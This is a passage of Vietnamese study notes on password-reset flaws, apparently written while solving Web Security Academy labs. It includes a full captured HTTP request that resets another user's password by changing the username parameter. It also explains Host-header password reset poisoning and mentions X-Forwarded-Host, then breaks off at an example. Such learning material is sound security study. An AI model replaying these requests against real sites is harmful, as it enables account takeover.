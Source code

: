 ```sql
POST /forgot-password?temp-forgot-password-token=48zd6yx8i79padr5aquk20gnypwx4rqv HTTP/2
Host: 0a8000d604b65d8680bd85b10072004d.web-security-academy.net
Cookie: session=BhA3kvQoyfJDXZ99zpfwKKISa7Jsr4zo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 115
Origin: https://0a8000d604b65d8680bd85b10072004d.web-security-academy.net
Referer: https://0a8000d604b65d8680bd85b10072004d.web-security-academy.net/forgot-password?temp-forgot-password-token=48zd6yx8i79padr5aquk20gnypwx4rqv
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

temp-forgot-password-token=48zd6yx8i79padr5aquk20gnypwx4rqv&username=carlos&new-password-1=hihi&new-password-2=hihi
```

Trường hợp trên mục đích của token chỉ để làm cho request valid ⇒  đối tượng cần được reset password thì được truyền qua tham số `username`  dẫn đến mình có thể dễ dàng reset được password của người khác 

Cách khác phục :  Sử dụng jwt cho trường hợp này 

1. **Password reset** **poisoning**  

Cách triển khai : 

Người dùng nhập email hoặc username có liên kết với tài khoản , sau đó hệ thống sẽ gửi về url chứa token để access vào form đặt lại mật khẩu 

Url = `domainname/forget-password?token=secret-token`    ⇒ link = [domain.net/forge-passowrd?user=token](http://domain.net/forge-passowrd?user=token) 

Giá trị domain name thường được lấy từ giá trị HOST header từ HTTP request < trong trường hợp URL reset password được tạo ra một cách động > 

Vấn đề  : 

Nếu thao túng được giá trị `Host` mà phía back end nhận được thì sẽ dẫn đến lỗi `password reset poisoning` 

Một số Header dùng để thao túng giá trị HOST như :

- *X-Forwarded-Host*
- Forwarded

Ví dụ  :
